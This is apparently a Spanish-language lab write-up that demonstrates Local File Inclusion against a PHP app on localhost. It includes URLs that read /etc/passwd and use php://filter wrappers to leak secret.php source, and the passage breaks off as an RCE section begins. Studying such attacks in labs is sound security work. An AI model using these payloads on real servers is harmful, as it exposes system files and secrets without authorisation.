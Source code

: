 Explicación: en el navegador al acceder a localhost no deberíamos de poder ver este mensaje

Acción 2: podemos ver `/etc/passwd` pero no `secret.php` (porque interpreta el código php)

```URL
http://localhost/?filename=/etc/passwd
```

```URL
http://localhost/?filename=secret.php
```
**Nota:** aquí entran en juego los *wrappers*

Acción 3: wrapper para mostrar el contenido del archivo en base64

**Wrapper:** php://filter/convert.base64-encode/resource=

```URL
http://localhost/?filename=php://filter/convert.base64-encode/resource=secret.php
```

```bash
echo "PD9waHAKCS8vIE5vIGRlYmVyaWFtb3MgcG9kZXIgdmVyIGVzdG8sIHlhIHF1ZSBlc3RlIGNvZGlnbyBkZWJlcmlhIHNlciBpbnRlcnByZXRhZG8KPz4K" | base64 -d
```

Resultado:

```php
<?php
	// No deberiamos poder ver esto, ya que este codigo deberia ser interpretado
?>
```

Explicación: Se utiliza el wrapper php://filter para aplicar un filtro que convierte el contenido del archivo secret.php a base64 antes de procesarlo. Esto permite visualizar el contenido del archivo original aunque normalmente esté protegido contra lectura directa, ya que el filtro lo trata como si fuera texto plano en lugar de ejecutarlo como PHP. Es una técnica útil cuando el servidor no valida correctamente las entradas y permite usar wrappers especiales como parte del nombre del archivo.

Acción 4:  wrapper para mostrar el contenido en utf-16

```URL
view-source:http://localhost/?filename=php://filter/convert.iconv.utf-8.utf-16/resource=secret.php
```

**Nota:** ctrl+U para ver código fuente (view-source:)

Ecplicación: En este caso, se utiliza el wrapper php://filter con el filtro convert.iconv.utf-8.utf-16, que convierte el flujo de datos del archivo desde UTF-8 a UTF-16. Aunque el wrapper es válido y realiza la conversión correctamente, no resulta útil en la mayoría de contextos de pentesting

### Wrapper para RCE

Acción 1: abrimos BurpSuite

```bash
burpsuite &>/dev/null & disown
```

Acción 2: capturamos petición con BurpSuite
